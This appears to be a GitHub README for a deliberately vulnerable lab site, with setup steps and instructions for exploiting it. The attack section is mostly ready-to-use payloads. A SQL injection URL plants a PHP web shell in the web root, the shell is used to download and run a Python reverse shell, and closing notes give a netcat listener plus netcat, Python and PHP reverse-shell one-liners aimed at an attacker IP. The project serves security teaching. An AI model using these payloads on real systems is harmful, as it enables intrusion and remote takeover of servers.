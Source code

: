 SQL INJECTION ATTACK EXAMPLE
============================

This small project is a working example of setting up a website vulnerable to SQL injection with instructions
on how to exploit it to get shell access.

Setup Instructions
----------------------------

In order to setup locally, you will need Virtualbox, Vagrant and Ansible installed on your work machine.

```
// Clone the repository to your work machine.
# git clone git@github.com:doublehops/sql-injection-attack-example.git

// Change into the new directory download and run the virtual machine with:
# vagrant up

// Ensure you can ssh into the virtual machine:
# ssh vagrant@192.168.30.99 -i .vagrant/machines/default/virtualbox/private_key

// Use Ansible to provision (install the webserver, PHP, MariaDB/MYSQL) the box with the following:
# dev/provision.sh local_dev

// Import database schema and data into database:
# dev/ssh-import-database.sh

// Load the webpage in your browser to check all is well: http://192.168.30.99
```

Play Around with SQL Injection
------------------------------




Gain Access to Webserver with SQL Injection
-------------------------------------------

Create a PHP script that will run commands
http://secure.api/sql-injection/outfile.php?username=d%27;select%20%22%3C?php%20system($_GET[%27cmd%27]);%22%20into%20outfile%20%22/var/www/web/images/cmd.php%22;

PYTHON BACKDOOR

Download Python reverse shell
http://secure.api/images/cmd.php?cmd=wget%20http://secure.api/scripts/reverse-shell.py -O /tmp/reverse-shell.py

Run new Python backdoor script
http://secure.api/images/cmd.php?cmd=/tmp/reverse-shell.py




NOTES
----------

Setup host machine for incoming connections:
`nc -nvlp 4444`

Run reverse shell command on foreign machine:

Netcat reverse shell
`nc.traditional -e /bin/sh <host> 4444`

Python reverse shell
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP reverse shell
`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
